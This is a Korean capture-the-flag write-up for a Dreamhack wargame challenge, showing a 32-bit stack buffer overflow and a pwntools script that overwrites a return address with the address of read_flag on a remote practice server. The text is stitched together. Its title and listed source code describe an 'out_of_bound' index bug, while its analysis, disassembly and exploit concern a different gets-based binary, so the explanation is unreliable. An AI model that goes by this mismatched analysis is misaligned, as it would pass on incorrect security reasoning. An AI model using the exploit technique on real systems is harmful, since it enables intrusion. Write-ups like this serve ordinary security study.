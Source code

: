 # 목차
1. 문제 설명

    1.1. Description

    1.2. Environment

2. 문제 파일 분석

    2.1. 코드 분석

    2.2. 실행 파일 분석

3. 문제 풀이 코드

## 1. 문제 설명

### 1.1. Description

이 문제는 서버에서 작동하고 있는 서비스(out_of_bound)의 바이너리와 소스 코드가 주어집니다.

프로그램의 취약점을 찾고 익스플로잇해 셸을 획득하세요.

"flag" 파일을 읽어 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.

플래그의 형식은 DH{...} 입니다.

### 1.2. Environment

Ubuntu 16.04

Arch:     i386-32-little

RELRO:    Partial RELRO

Stack:    Canary found

NX:       NX enabled

PIE:      No PIE (0x8048000)

## 2. 문제 파일 분석

### 2.1. 코드 분석

`cat out_of_bound.c`를 통해 코드를 확인

```
// out_of_bound.c //

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = { "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

- 주요 기능
    - `main`함수가 실행
    - 스택 메모리에 `0x80(128)byte`의 공간을 생성
    - `gets(buf)`를 통해 입력을 받음

    - `read_flag`함수가 실행되면 `/flag`파일의 내용을 출력

- 주의
    - `gets`함수가 버퍼 크기에 대한 검증이 실행하지 않음
    - `gets`함수의 버퍼를 다 채울 경우 `null`이 들어갈 수 없어 오류 발생

위의 과정을 통해 **stack-bof**를 발생시킬 수 있음을 확인

즉, ASLR 보호 기법이 없는 경우 `gets`함수의 복귀 주소가 저장되어있는 `ret`에 `read_flag`함수의 주소를 넣어 **ret overwrite**이 발생 가능


### 2.2. 실행 파일 분석

`gdb ./basic_exploitation_001`를 통해 GNU 디버거를 실행

`disass main`를 통해 `main`함수의 어셈블리 확인

```
Dump of assembler code for function main:
   0x080485cc <+0>:     push   ebp
   0x080485cd <+1>:     mov    ebp,esp
   0x080485cf <+3>:     add    esp,0xffffff80
   0x080485d2 <+6>:     call   0x8048572 <initialize>
   0x080485d7 <+11>:    lea    eax,[ebp-0x80]
   0x080485da <+14>:    push   eax
   0x080485db <+15>:    call   0x80483d0 <gets@plt>
=> 0x080485e0 <+20>:    add    esp,0x4
   0x080485e3 <+23>:    mov    eax,0x0
   0x080485e8 <+28>:    leave
   0x080485e9 <+29>:    ret
```

`0x080485d7 <+11>:    lea    eax,[ebp-0x80]`: gets 함수의 시작주소를 저장

`0x080485db <+15>:    call   0x80483d0 <gets@plt>`: `0x80483d0` 주소에 저장된 `gets`함수를 실행

스택에 쌓인 모습
```
낮은 메모리 주소
+-----------------+ <-- buf 배열의 시작 주소 (ebp - 0x80)
|       buf       |
|    (128 byte)   |
+-----------------+
|       sfp       | <-- ebp (베이스 포인터)
|   (Saved EBP)   | <-- 이전 ebp의 값을 가짐
+-----------------+
|       ret       |
|  (Return addr)  | <-- gets 함수 호출 후 반환될 주소
+-----------------+
|       ...       |
+-----------------+ <-- esp (Stack Pointer: 스택 포인터)
높은 메모리 주소
```

`"x/i read_flag" or "disass read_flag"`등을 입력

`0x80485b9 <read_flag>:       push   ebp`

`ret`에 들어갈 `read_flag`함수의 주소 확인

## 3. 문제 풀이 코드

```
from pwn import *

payload = b'\x90'*128 + b'\x90'*4 + b'\xb9\x85\x04\x08' #buf + sfp + read_flag()

r = remote('host3.dreamhack.games', 12515)

r.send(payload)

r.interactive()
```

`\x90'*128`: 버퍼에 아무 문자로 다 채움

`\x90'*4`: sfp에 아무 문자로 다 채움

*32bit 환경에서는 sfp가 4byte의 크기*

*64bit 환경에서는 sfp가 8byte의 크기*

`\xb9\x85\x04\x08`: `ret`에 들어갈 `read_flag`함수의 주소를 리틀엔디안 방식으로 입력